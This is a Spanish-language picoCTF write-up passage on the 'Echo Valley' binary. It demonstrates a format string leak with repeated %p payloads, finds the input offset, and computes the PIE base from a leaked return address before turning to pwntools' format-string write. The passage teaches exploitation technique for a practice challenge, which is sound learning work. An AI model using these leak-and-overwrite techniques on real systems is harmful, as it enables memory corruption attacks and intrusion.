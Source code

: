 Vamos a probar a lanzar muchas `%p` a ver si hay algo curioso por el stack:

```c
./valley
Welcome to the Echo Valley, Try Shouting: 
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
You heard in the distance: 0x7ffc611845c0 (nil) (nil) (nil) (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x207025 0xc4d7f2c0ba99ee00 0x7ffc611847f0 0x55c3cf318413 0x1 0x7f471c81bca8 0x7ffc611848f0 0x55c3cf318401 0x1cf317040 0x7ffc61184908 0x7ffc61184908 0xde65293a6740c525 (nil) 0x7ffc61184918 0x7f471ca40000 0x55c3cf31ad78
```

Podemos ver algunas direcciones, si nos fijamos bien podemos ver alguna dirección interesante:

* En el puesto 20 del stack: `0x7ffc611847f0` (parece una dirección del stack)
* En el puesto 21 del stack: `0x55c3cf318413` (parece una dirección del programa)

A parte de eso podemos intentar ver si nuestro input está también:

```c
ABCDEF%p %p %p %p %p %p %p %p %p %p
You heard in the distance: ABCDEF0x7ffeb9742620 (nil) (nil) 0x560a17ab96d4 (nil) 0x7025464544434241
```

Y efectivamente está en la posición 6.

Vamos a investigar un poco mas que hay en la dirección del elemento 21 del stack

```c
You heard in the distance: 0x555555555413

   0x000055555555540e <+13>:      call   0x555555555307 <echo_valley>
   0x0000555555555413 <+18>:      mov    eax,0x0
   0x0000555555555418 <+23>:      pop    rbp
```

Ajá! Esa dirección es la dirección siguiente a un call, lo que quiere decir que es la dirección de la dirección de retorno una vez estemos dentro de la función a la que se llama.

Como sabemos la dirección de una instrucción leakeada en el stack podemos calcular el offset de esa instrucción, y con el offset podemos luego en pwntools sacar la dirección del binario:

```c
piebase
Calculated VA from /home/ub1cu0/Desktop/picoCTF/Echo_Valley/valley = 0x555555554000

Offset de la Dirección de Retorno: 0x555555555413 - 0x555555554000 = 0x1413
```

La dirección del binario la calcularemos mas adelante cuando hagamos el script que resuelva el ejercicio.

La función `mtstr_payload` de pwntools permite modificar el valor de una variable en el stack, para usarla necesitamos 2 cosas:

* La posición de un parámetro controlable en el stack (LO TENEMOS)
* La dirección de la variable a modificar (AUN NO LO TENEMOS)
